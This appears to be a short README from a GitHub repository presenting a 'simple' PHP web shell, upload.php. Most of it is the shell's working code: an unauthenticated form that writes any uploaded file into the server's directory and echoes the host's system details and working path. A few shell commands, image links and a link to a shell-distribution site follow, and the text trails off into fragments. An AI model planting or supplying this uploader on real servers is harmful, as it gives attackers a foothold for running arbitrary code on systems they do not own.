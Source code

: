 # webshell simple upload.php.

<img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/webshell.png"> 


vim upload.php

<center><form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">
<center><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>
<?php if( $_POST['_upl'] == "Upload" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo 'Done !!'; } else { echo 'Failed :('; }} 
echo "<center><br><b>".php_uname()."</b><br></center>";
echo "<center><p><br><b>".getcwd()."</b><br></p></center>";
?>

cd ..

chmod +r carpeta

cd carpeta


img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/shell.png"> 


http://deepshells.com/

https://github.com/xl


